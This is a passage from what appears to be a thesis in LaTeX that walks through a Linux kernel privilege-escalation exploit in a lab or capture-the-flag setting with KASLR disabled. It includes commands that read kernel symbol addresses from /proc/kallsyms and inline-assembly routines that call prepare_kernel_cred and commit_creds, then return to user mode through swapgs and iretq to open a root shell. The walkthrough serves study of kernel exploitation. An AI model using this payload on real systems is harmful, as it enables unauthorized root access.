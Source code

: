 \documentclass{masterthesis}
\begin{document}
Since \emph{KASLR} is disabled, the addresses where the functions reside are the same at every boot. So we can get those addresses by reading the \texttt{/proc/kallsyms} file with the following bash commands:
\begin{lstlisting}
cat /proc/kallsyms | grep commit_creds
-> ffffffff814c6410 T commit_creds
cat /proc/kallsyms | grep prepare_kernel_cred
-> ffffffff814c67f0 T prepare_kernel_cred
\end{lstlisting}
Then, to get root privileges we need to write a code where the two functions are called consecutively using the return value of one as a parameter of the other one.
At this point, we need to recall an instruction that allows us to return to user-land.
This can be done with these two different funciotns: \texttt{iretq} or \texttt{sysretq}.
With the first one \texttt{iretq}, it is much simpler because we need to configure the stack with five user area registry values in this order: \texttt{RIP | CS | RFLAGS | SP | SS}.
For the other function \texttt{RIP}, we can set the address of the function that allows us to open a shell while for the others we need to enter values that return to a state before getting kernel mode.
Therefore, the best solution is to save the state of the registers before entering the kernel mode and reload them after obtaining root privileges.
\begin{lstlisting}
void save_state(){
    __asm__(
        ".intel_syntax noprefix;"
        "mov user_cs, cs;"
        "mov user_ss, ss;"
        "mov user_sp, rsp;"
        "pushf;"
        "pop user_rflags;"
        ".att_syntax;"
    );
    puts("[*] Saved state");
}
\end{lstlisting}
One more instruction called \texttt{swapgs} must be called before \texttt{iretq}. The purpose of this instruction is also to swap the \texttt{GS} register between kernel-mode and user-mode.
In general, it is appropriate to invoke the \texttt{swapgs} instruction because the syscall does not change \texttt{RSP} to point to the kernel stack, and it does not save \texttt{RSP} user space anywhere. So, some kind of thread-local (or core-local) storage is needed because each core can get the correct kernel stack pointer for the task running on that core.
With all these information, we can complete the code to gain root privileges, then come back to user-mode:
\begin{lstlisting}[caption={first step}\label{lst:first_stepctf}]
unsigned long user_rip = (unsigned long)get_shell;
void escalate_privs(void){
    __asm__(
        ".intel_syntax noprefix;"
        "movabs RAX, 0xffffffff814c67f0;" //prepare_kernel_cred
        "xor RDI, RDI;"
        "call RAX; mov RDI, RAX;"
        "movabs RAX, 0xffffffff814c6410;" //commit_creds
        "call RAX;"
        "swapgs;"
        "mov r15, user_ss;"
        "push r15;"
        "mov r15, user_sp;"
        "push r15;"
        "mov r15, user_rflags;"
        "push r15;"
        "mov r15, user_cs;"
        "push r15;"
        "mov r15, user_rip;"
        "push r15;"
        "iretq;"
        ".att_syntax;"
    );
}
\end{lstlisting}
\end{document}

